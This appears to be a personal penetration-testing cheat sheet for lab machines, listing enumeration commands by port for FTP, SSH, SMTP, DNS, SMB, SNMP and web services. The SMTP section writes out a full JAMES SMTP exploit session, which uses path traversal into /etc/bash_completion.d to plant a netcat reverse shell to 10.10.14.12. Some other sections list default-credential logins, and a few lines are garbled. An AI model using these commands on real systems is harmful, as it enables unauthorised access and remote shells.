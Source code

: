 FTP-21:
----------------
       ftp 10.10.10.10
       username:anonymous
       password:password
       
       
       ftp 10.10.10.10
       username:password:)
       password:password       psy shell
       
SSH-22:
------------------
       ssh user@10.10.10.10
       ssh -i id_rsa user@10.10.10.10
       ssh -L 5001:127.0.0.1:5009 user@10.10.10.10
       ssh -oKexAlgorithms=diffie-hellman-group1-sha1 -p 22022 sunny@10.10.10.76
       ssh permission 400 or 600
       
TELNET-23:
-------------------
       telnet 10.10.10.10  
       telnet 10.10.10.10 53 (Banner grabbing)
       
SMTP-25:
-------------------
       220 solidstate SMTP Server (JAMES SMTP Server 2.3.2) ready Mon, 30 Dec 2019 17:10:56 -0500 (EST)
       EHLO bla.bla
       250-solidstate Hello bla.bla (10.10.14.12 [10.10.14.12])
       250-PIPELINING
       250 ENHANCEDSTATUSCODES
       MAIL FROM: <'random@random.com>
       250 2.1.0 Sender <'random@random.com> OK
       RCPT TO: <../../../../../../../../etc/bash_completion.d>
       250 2.1.5 Recipient <../../../../../../../../etc/bash_completion.d@localhost> OK
       DATA
       354 Ok Send data ending with <CRLF>.<CRLF>
       FROM: bla.bla
       '
       /bin/nc -e /bin/bash 10.10.14.12 1234
       .
       250 2.6.0 Message received
       quit
       
      
DNS-53:
--------------------------------
       nslookup
       server 10.10.10.10
       10.10.10.10
       
       
       host -l hack.htb 10.10.10.10
       
HTTP-80:
-----------------------------------
       CMS OR CF OR user,help,admin,robots.txt
       source code and page info(look into certificates foremail id)
       dirbuster or gobuster or wfuzz
       burp suite 
       Windows or Linux
       
       
Kerberos-88:
------------------------------------




POP3-110:
------------------------------------
       nc 10.10.10.10 110
       USER  mindy
       PASS password
       
       telnet 10.10.10.10   110
       username:
       root
       password:
       root
       
RPCBIND-111:
-------------------------------------
       rpcbind -p 10.10.10.10
       
MSRPC-135:
-------------------------------------
       NMAP SCRIPTS
       METASPLOIT
SMB(139 OR 445):
-----------------------------------
       smbclient -L 10.10.10.10
       smbmap -R -H 10.10.10.10
       enum4linux -a 10.10.10.10
       rpcclient -U "" 10.10.10.10
       nbtscan -r 10.10.10.0/24
       metasploit  (psexec)
       
IMAP(143 OR 993):
-----------------------------------
       
SNMP(162 OR 163):
-----------------------------------
       snmp-check
       snmp-walk
      

HTTPS-443:
---------------------------------------------
       CMS OR CF OR user,help,admin,robots.txt
       source code and page info(look into certificates foremail id)
       dirbuster or gobuster or wfuzz
       burp suite 
       Windows or Linux
       
       
       
